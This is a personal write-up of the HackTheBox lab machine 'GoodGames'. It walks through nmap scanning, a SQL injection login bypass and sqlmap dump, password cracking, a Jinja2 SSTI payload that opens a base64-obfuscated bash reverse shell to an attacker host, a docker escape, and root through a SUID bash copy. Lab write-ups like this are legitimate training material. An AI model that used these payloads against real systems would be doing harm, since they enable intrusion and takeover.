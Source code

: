 # This is the Writeup of the HackTheBox machine "GoodGames"

Well hello there! I just finished another HackTheBox machine called "GoodGames" and I decided to make my own writeup to better understand everything that has happened during my pwning. I have learned a couple of new things that honestly I thought work differently, but without further ado, let's start B)

The challenge obviously starts with doing an nmap scan. For this, I really like to use this command : `nmap -sV -Pn -sC -v -p- -oN scan 10.10.11.130` as `-sV` enables version detection, `-Pn` disables host discovery and treats all hosts as online, `-sC` enables script scanning using the default set of Nmap scripts, `-v` makes the output more verbose, `-p-` indicates that all ports will be scanned and `-oN scan` specifies the format and location for the output (that in this case is called "scan").

```Nmap scan report for 10.10.11.130
Host is up (0.023s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
| http-methods:
|_  Supported Methods: GET OPTIONS HEAD POST
|_http-title: GoodGames | Community and Store
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Service Info: Host: goodgames.htb
```


**Don't forget to add goodgames.htb to your /etc/hosts !!!**

Well, the scan didn't show much, so we begin to poke around the main site. What is interesting (for hackers, obviously...) is the login form. We need to provide email and password to be logged into our account. At first, I spend some time poking around with JWT tokens - but it was not the correct way of thinking. I gave up on trying to bruteforce/guess admin's password, as for logging we were using email address, which I didn't know (at this point). After looking up other writeups, it turned out that I should have tried the infamous **SQL INJECTION**. Apparently, even though we had to provide email address in loging form, if we used typical SQL injection payload `email=admin' or 1=1 -- -` we still got logged in as admin (sick!). Now that's a surprise! If we were able to exploit the `email` field with our famous payload, we could test it using tool called `sqlmap`. All we had to do was to intercept our burp request during loging, save it as `request.txt` and then use command like `sqlmap -r request.txt`. This results in a dumped database with usernames and password hashes. Bingo! Now we just need to crack the admin's password and we are ready to go!

I used one of my favourite sites for cracking common passwords: https://crackstation.net. It turns out that our admin uses a really weak password: "superadministrator". This is pathetic... But now we are able to log into the admin's account and try to find a way to mess things up. 
In admin's panel, we can find info about another site called `internal-administration.goodgames.htb`.  
**Remember to add this address to your /etc/hosts !!!**  
After visiting this page, we are greeted by a big login form called "_Flask Volt_".**_Remember that Flask is a web application framework written in python!_** I wonder... What if our admin was really lazy and used the same password couple of times?  
Bingo!  
We can log into the app!  

Here comes the tricky part. I want to be completely honest with you, I lost my patience and looked up what to do next on some another writeup. But hey, that's probably why you are here! That's nothing to be ashamed of, we all have been there. At the end of the day, by overcoming new obstacles, you're learning many valuable things. But anyway - back to the point :)

In the `settings` section, you are able to set you username, date of birth and phone number. And remember this one thing:
**IF YOU ARE PENTESTING A PYTHON ENVIRONMENT, THERE IS A BIG CHANCE OF _SSTI_ VULNERABILITY**.  
I'm not even a pentester, but that's how life works. If you see python - it will be either SSTI or some other deserialization. But now, when I am writing this writeup, it is easy to say I guess...
Well, back to the point. If you try a payload in a name field to be `{{7*7}}`, the generated name will be `49`. That's nice, we found vulnerability. Now you need to identify the Template Engine. There is a couple of ways to do this, but I really like this article: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
If you identify it correctly, you will know that we have just found the Jinja2 Template Engine! Now, let's craft a payload.
The most common payload looks like this: `{{config.__class__.__init__.__globals__['os'].popen('bash -i >& /dev/tcp/<ip>/<port> 0>&1').read()}}`, unfortunately, when I tried this, it didn't work. So, good way of thinking is to base64 encode our payload and use `${IFS}` as a `space` character. If we base64 encode our `bash -i >& /dev/tcp/<ip>/<port> 0>&1` part, our final payload would look like this: `{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}<BASE64 ENCODED PART>${IFS}|base64${IFS}-d${IFS}|bash').read()}}`.

Pheeew, that was intense! Now let's setup a netcat listener using command `nc -lvnp 1337`, change name in the app to the previously given payload, and wait for magic to happen.  
Badaboom!  
We just landed our reverse shell!  

But what has happened?? Why are we root immediately?? Why is there no root.txt flag??? I'll explain! We are in a docker container. You can know this after seeing that after using `ls -la`, you see the user id's instead of user name's when listing files. Also, when you use `mount` command, you can see that there is "augustus" home directory mounted to this docker. Let's check the IPv4 of our container! Hmmmm... Why is it 172.19.0.2 instead of 172.19.0.1? Is there something running on the 172.19.0.1? There is only one way to find out! And maybe, just maybe our user is really, really lazy, and has used the same password third time!? But to do this, we need to be able to use `ssh`. Now we are not. Try this command: `script /dev/null bash`. It will start a new interactive Bash shell session, but all the input and output of the session will be discarded. Now, after `ssh augustus@172.19.0.1` and using the same password as before, we are able to log in as augustus.  

The last part of our journey is getting root access. Again, **WHEN YOU HAVE ACCESS TO A DOCKER CONTAINER WITH A MOUNTED FILESYSTEM OR ABILITY TO MOUNT, YOU WILL PROBABLY NEED TO CLONE A BINARY LIKE /BIN/BASH AND GIVE IT THE SUID BIT OR SOMETHING LIKE THIS**. So that's exactly what we will do! Let's go to the augustus home directory and copy the /bin/bash binary (`cp /bin/bash .`). Now let's use `logout` to go back to docker container. Look at this! There is our copied bash binary and we have root access and complete freedom in modyfing it's permissions! So nw, let's change the owner of this binary: `chown root:root bash`, then let's add SUID bit: `chmod s+u bash`. Now let's log again as augustus and if we did everything perfectly, you should be able to execute bash binary from augustus home directory with elevated privileges. If you execute `./bash -p`, you should become _root_.  

Thank you so much for reading this writeup. This means a lot to me and I hope you learned something new, as I certainly did :) If you have any suggestions please write to me and I'll try to make my writeups better and better. See you!


